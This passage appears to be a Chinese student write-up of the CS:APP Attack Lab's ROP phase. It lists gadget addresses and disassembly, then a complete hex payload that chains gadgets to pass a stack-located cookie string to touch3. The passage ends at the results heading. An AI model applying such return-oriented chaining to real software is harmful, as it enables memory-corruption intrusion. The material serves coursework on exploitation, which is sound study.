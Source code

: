 其中

```assembly
401a06: 48 89 e0 movq %rsp, %rax
401a09: c3       retq

4019a2: 48 89 c7 movq %rax, %rdi
4019a6: c3       retq

4019cc: 58 popq %rax
4019cd: 90 nop
4019ce: c3 retq

401a72: 91    xchg %ecx, %eax  #eax和ecx交换
401a73: c3    retq

401a13: 89 ce movl %ecx, %esi
401a15: 90         nop
401a16: 90         nop
401a17: c3         retq

4019d6: 48 8d 04 37 lea (%rdi,%rsi,1),%rax
4019da: c3          retq

4019a2: 48 89 c7 movq %rax %rdi
4019a5: c3       retq
```

栈结构如图所示(此图和下文的实现有不同，在movl %edx, ecx)

<img src="/Users/rui/Library/Application Support/typora-user-images/image-20200701200440039.png" alt="image-20200701200440039" style="zoom:50%;" />

因此指令码如下，可以看到cookie地址前有8个指令64byte，因此偏移量为0x40：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00  <- movq %rsp, %rax
a2 19 40 00 00 00 00 00  <- movq %rax, %rdi
cc 19 40 00 00 00 00 00  <- popq %rax
40 00 00 00 00 00 00 00  <- 偏移量，popq %rax执行时rsp的位置，执行后rsp指向下一行
72 1a 40 00 00 00 00 00  <- exch %ecx, %eax
13 1a 40 00 00 00 00 00  <- movl %ecx, %esi
d6 19 40 00 00 00 00 00  <- lea (%rdi,%rsi,1),%rax
a2 19 40 00 00 00 00 00  <- movq %rax %rdi
fa 18 40 00 00 00 00 00  <- touch3
35 39 62 39 39 37 66 61  <- cookie
00 00 00 00 00 00 00 00
```

结果：
